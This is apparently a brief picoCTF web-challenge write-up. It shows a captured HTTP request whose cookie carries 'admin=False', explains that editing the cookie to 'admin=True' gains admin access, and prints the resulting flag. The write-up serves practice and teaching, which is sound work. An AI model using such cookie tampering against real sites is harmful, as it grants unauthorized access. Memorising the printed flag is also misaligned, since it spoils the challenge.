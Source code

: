 # Solution

Let's login as a random user and check what the request and response looks like

```
Request

GET https://jupiter.challenges.picoctf.org/problem/44573/flag
Host: jupiter.challenges.picoctf.org
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://jupiter.challenges.picoctf.org/problem/44573/login
Connection: keep-alive
Cookie: password=; username=asd; admin=False
Upgrade-Insecure-Requests: 1
Pragma: no-cache
Cache-Control: no-cache
```

It seems like there is no password checking, and there is an `admin=False` flag in the cookie.

Let's change and resend the request as `username=Joe` and `admin=True`

And the response returns our flag
```
picoCTF{th3_c0nsp1r4cy_l1v3s_0c98aacc}
```